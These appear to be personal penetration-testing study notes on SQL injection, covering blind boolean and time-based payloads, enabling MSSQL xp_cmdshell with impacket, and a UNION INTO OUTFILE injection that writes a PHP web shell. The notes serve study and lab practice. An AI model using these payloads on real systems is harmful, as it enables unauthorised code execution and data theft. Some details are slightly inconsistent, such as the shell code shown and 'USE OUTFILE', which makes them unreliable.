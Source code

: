 
# SQL Injection
[SQL](../../coding/languages/SQL.md) injection is a type of attack which leverages poor security practices when implementing SQL in an application. If user input is not properly sanitized, then an attacker can use SQLi to manipulate backend databases by making queries to them using SQL.
![My notes on SQLi](../../cybersecurity/TTPs/exploitation/injection/SQLi.md)

![My notes on UNION Attacks](../../cybersecurity/TTPs/exploitation/injection/UNION-attack.md)

# Blind SQL Injections
SQLi where the results are returned back to you are called "in-band." Conversely, SQLi where the results are *not* returned back to you are called "blind." Because the results aren't returned, you have to infer the outcome, usually via boolean or time-based logic.
## Boolean Based SQLi
Boolean based SQLi causes the application to return differing and predictable values when the query returns a `TRUE` or `FALSE` result. The results returned back to you *are usually from the web application* and not the actual database.
### Example
Let's say we have a web application hosted using [PHP](../../coding/languages/PHP.md), and we notice in the address bar it has a `user` parameter:
```
http://vulnerable.com/dashboard.php?user=trshpuppy
```
When you're logged in as the user `trshpuppy` this is the url when you visit your dashboard. We can check for blind SQLi here with a boolean-based check like this:
```sql
http://vulnerable.com/dashboard.php?user=trshpuppy' AND 1=1 -- //
```
If the user `trshpuppy` is true, then the whole query with the injection should resolve as true. So, when we append our injected `AND` statement, the same content should appear on the page as when we don't append it. Using this boolean-based attack, we can enumerate the entire database for existing usernames.
## Time Based SQLi
In time based blind SQLi, an attacker uses differences in *response time* to conclude if an attempted query is `TRUE` or `FALSE`.
### Example
If we're looking at the same web application as the example above (boolean based section), then we can use a time based technique to check for SQLi by adding an `IF` condition:
```sql
http://vulnerable.com/dashboard.php?user=trshpuppy' AND IF (1=1, sleep(3), 'false') -- //
```
In [SQL](../../coding/languages/SQL.md) the `IF()` function checks the first parameter (`1=1`), and if it's true it will sleep for 3 seconds (`sleep(3)`), and if it's false, it will return `false`. Since `1=1` is true, we expect the application to sleep for 3 seconds. However *that will only happen if the user `trshpuppy` is also true*.

So, time based blind SQLi can also be used for enumeration. If the user is false (doesn't exist), the application should immediately error (or do whatever behavior we observed it doing for usernames which don't exist). If the user is true (does exist), then the application should time-out for 3 seconds before returning any content.
# Manual Code Execution
Depending on how the SQL server is configured on a target, we can use it to *achieve code execution*. For example, in [MSSQL](../../CLI-tools/windows/MSSQL.md) servers the `xp_cmdshell` function takes a string and passes it to a command shell for execution. Any output returned from the shell is returned by MSSQL as rows or text. Usually, it is disabled by default. But once it's enabled, it can called in a SQL query by using the `EXECUTE` keyword.
## `xp_cmdshell` 
To enable `xp_cmdshell`, we can use the `impacket-mssqlclient` tool. Once we're connected to the target MSSQL server, we can give the following command query:
```sql
EXECUTE sp_configure 'show advanced options', 1;
```
`sp_configure` is another MSSQL command ('procedure') which displays global configuration settings for the current server. You can use it to view options or modify settings. Additionally, you can give it `1` or `0` as a parameter to enable or disable specific commands:
```sql
-- Use sp_configure to enable "show advanced options"
kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;

-- Use sp_configure to enable "xp_cmdshell"
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
```
Once a change is made, run `RECONFIGURE` to apply it. Now we can execute any Windows shell command we want.
## In MySQL
Unlike MSSQL, [MySQL](../../CLI-tools/linux/mysql.md) does not have something like `xp_cmdshell` to execute commands. Instead, we can abuse the `INTO_OUTFILE` statement to write files to the vulnerable web server. For this to work, the user running the MySQL instance *has to have write permission* to the file's location. 
### Using `UNION` & `INTO OUTFILE` to write a web shell
We can use the [UNION keyword](../../cybersecurity/TTPs/exploitation/injection/UNION-attack.md#UNION%20keyword) to write a [web-shell](../../cybersecurity/TTPs/exploitation/web-shell.md) to disk. For this example to work, the web application needs to be vulnerable to a UNION attack *AND* be running [PHP](../../coding/languages/PHP.md). If by investigating the UNION attack we've discovered that the output returned from the vulnerable SQL query includes 5 columns, then we can use `UNION SELECT` to inject PHP script using one of the joined columns.

Then we can use `USE OUTFILE` to create the file we want to write the PHP code into:
```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
The resulting `webshell.php` file would contain this:
```php
<? system($_REQUEST ['cmd']); ?>
```
In this code, the `system` function parses the statement given to it (via the `cmd` parameter) coming from the client's [HTTP](../../www/HTTP.md) request. This should create an *interactive* web command shell for us. 
### Executing the webshell
Now that our file is written to disk, we can try accessing it by simply navigating to it in the browser (since we wrote it to the web server's root):
![](../oscp-pics/SQLi-1.png)
# Automated Code Execution
Instead of doing manual exploitation to achieve code execution, we can use some automated tools. 
## sqlmap
[`sqlmap`](https://sqlmap.org/) is a tool which does automatic SQLi for us.
![My notes for sqlmap here](../../cybersecurity/TTPs/exploitation/tools/sqlmap.md)


> [!Resources]
> - [W3 Schools: MySQL IF() Function](https://www.w3schools.com/sql/func_mysql_if.asp)
> - [Beagle Security: Time Based SQLi](https://beaglesecurity.com/blog/vulnerability/time-based-blind-sql-injection.html)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.